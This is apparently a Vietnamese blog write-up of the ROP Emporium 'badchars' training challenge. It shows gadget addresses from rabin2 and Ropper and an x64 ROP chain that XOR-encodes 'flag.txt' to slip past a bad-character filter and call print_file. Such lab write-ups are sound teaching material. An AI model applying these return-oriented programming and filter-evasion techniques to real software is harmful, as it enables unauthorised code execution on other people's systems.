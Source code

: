 Title: Học khai thác lỗ hổng bảo mật qua ROP Emporium - Part 2
Date: 2023-10-17
Category: Trang chủ
Tags: binary, exploit, rop, x64
Slug: pwn
Authors: minix

## Bad chars
Challenge 5 cũng tương tự challenge 4 Write 4 nhưng chuỗi khi truyền vào sẽ được kiểm tra các ký tự, nếu gặp các ký tự này sẽ bị thay thế bằng 0xeb

![]({static}/images/ropemporium-2/Bad%20chars/image.png)

Như vậy ta cần tránh các ký tự 4 kí tự là “x”,  “g”, “a” ,“.”

 Và để tránh truyền các ký tự này ta sẽ truyền vào string “flag.txt” đã được encrypt từng byte bằng phép xor với 0x50 (chọn key để tránh các kí tự trên) và sử dụnng gadget xor để decrypt trước khi thực thi 

Tiến hành lấy địa chỉ các gadget cần thiết

```text-plain
 $ rabin2 -i badchars
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
...
4   0x00400510 GLOBAL FUNC       print_file

$ rabin2 -S badchars
[Sections]
nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
23  0x00001028   0x10 0x00601028   0x10 -rw- .data

$ python3 Ropper.py -f badchars
...
0x000000000040069c: pop r12; pop r13; pop r14; pop r15; ret;  
0x00000000004006a3: pop rdi; ret;
0x00000000004004ee: ret;
0x0000000000400628: xor byte ptr [r15], r14b; ret;
0x0000000000400634: mov qword ptr [r13], r12; ret;
0x00000000004006a2: pop r15; ret; 
```

Build stack như sau

```text-plain
---> Load encrypted flag vào section .data
[A*8  ]
[.....]
[A*8  ] -> 40*A
[0x40069c] -> pop r12; pop r13; pop r14; pop r15; ret;
[encrypted_flag] -> 8 byte encrypted "flag.txt" -> r12
[0x601028 + 7] -> -rw- .data -> r13; Vì 0x601028 + 0x6 = 0x60102e có 0x2e là '.' nên ta cộng thêm 7 vào địa chỉ
[key] -> encrypt key -> r14
[0x601028] -> -rw- .data -> r15
[0x400634] -> mov qword ptr [r13], r12; ret;  -> lấy encrypted 'flag.txt' (r12) lưu vào .data (r13)
---> Lặp lại gadget xor với mỗi byte trong encrypted flag lưu tại .data
[0x400628] -> xor byte ptr [r15], r14b; ret;
[0x4006a2] -> pop r15; ret;
[0x601028 + 7 + i] -> Với  1<= i < 8
[0x400628] -> xor byte ptr [r15], r14b; ret; byte cuối của encrypted flag
[0x4006a3] -> pop rdi; ret;
[0x601028 + 7] -> rdi -> arg1 của print_file
```